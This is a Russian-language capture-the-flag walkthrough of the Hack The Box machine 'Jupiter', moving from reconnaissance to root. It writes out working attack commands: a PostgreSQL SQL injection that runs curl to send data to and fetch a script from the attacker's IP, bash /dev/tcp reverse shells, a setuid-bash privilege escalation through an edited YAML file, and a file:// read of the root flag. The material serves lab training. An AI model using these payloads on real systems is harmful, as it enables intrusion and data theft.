# Jupiter
:white_check_mark:  [**Getting access by ssh on attacked machine with id_rsa**](#id_rsa_access)

:white_check_mark:  [**Jupyter notebook token**](#Jupyter_token_access)

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV jupiter.htb
```

```
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ac:5b:be:79:2d:c9:7a:00:ed:9a:e6:2b:2d:0e:9b:32 (ECDSA)
|_  256 60:01:d7:db:92:7b:13:f0:ba:20:c6:c9:00:a7:1b:41 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Home | Jupiter
9618/tcp filtered condor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Пробрутим поддомены, используя gobuster.

```
gobuster vhost -u jupiter.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -t 50 --append-domain
```

```
kiosk.jupiter.htb
```



Обновим страницу и перехватим все запросы через Burp Suite. Среди всех запросов мы можем найти несколько со следующим содержимым.



Параметр rawSql может быть уязвимым. Сохраним данный запрос в файл и запустим sqlmap.

```
sqlmap -r req.txt -dbs --batch
```



Мы можем заметить, что данный параметр действительно уязвим. 

В интернете мы можем найти следующую [статью](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql).



Запустим слушатель и попробуем получить соединение:

```
copy (SELECT '') to program 'curl http://10.10.14.95:4444?f=`ls -l|base64`'-- -
```



Мы получаем соединение, значит мы можем получить обратную оболочку.

Создадим файл, который будет давать нам обратную оболочку.

```
sh -i >& /dev/tcp/10.10.14.95/5566 0>&1
```
Обратимся к нему через уже найденную уязвимость.

```
copy (SELECT '') to program 'curl http://10.10.14.95:4455/rev.sh|bash'
```



Загрузим на атакуемую машину pspy64 и запутим скрипт.



Мы можем обнаружить два странных файла с названиями **shadow-simulation.sh** и **network-simulation.yml**.

Файл network-simulation.yml имеет следующее содержимое:

```
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s
```

Данный скрипт запускает сервер, используя python3 и проверяет его работу. Попробуем сделать копию bash и выдать необходимые права.

```
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/bash
      start_time: 5s
```

Прописываем команду **bash -p** и получаем пользователя juno.



<a name="id_rsa_access"></a>

## Getting access by ssh on attacked machine with id_rsa

Получим доступ по ssh используя ключ. Для этого сгенерируем ключ на своей машине.

```
ssh-keygen
```

Загружаем файл id_rsa.pub на атакуемую машину и помещаем его в authorized_keys

```
mv id_rsa.pub authorized_keys
```

На своей машине выдаем ключу id_rsa права и подключаемся по ssh.

```
chmod 600 id_rsa 
```

Загрузим на атакуемую машину linpeas. Из вывода скрипта, мы можем обнаружить сервис на 8888 порту.



Для того чтобы прокинуть порт, воспользуемся chisel.

```
1. Запускаем chisel на атакующей машине: ./chisel server --reverse -p 6789
2. Запускаем chisel на атакуемой машине: ./chisel client 10.10.14.89:6789 R:2222:127.0.0.1:8888
```

<a name="Jupyter_token_access"></a>

## Jupyter notebook token

Переходим по данному адресу и замечаем страницу Jupyter notebook.



Чтобы получить доступ, нам необходим пароль или же токен. Найти токен мы можем в логах jupyter notebook.



Берем любой токен и попадаем на сайт.



Далее создадим новый файл: File -> New Notebook -> python3. Попробуем получить обратную оболочку используя команду:

```
import os; os.system('bash -c "bash -i >& /dev/tcp/10.10.14.89/9999 0>&1"')
```





Мы получили пользователя jovian. Попробуем просмотреть права на выполнение команд.



Мы можем заметить, что у нас есть доступ к использованию от sudo файла sattrack. Данный файл имеет формат ELF, значит мы не сможем его просто так прочитать. Воспользуемся командой strings и попробуем отыскать любое упоминание каких-либо конфигов.



Прочтем содержимое данного конфига.



Данный файл запрашивает данные с сайтов. Попробуем ввести вместо сайтов название файла с флагом.

```
"file:///root/root.txt"
```


Теперь в директории /tmp мы можем обнаружить директорию /tle, содержащую файл root.txt

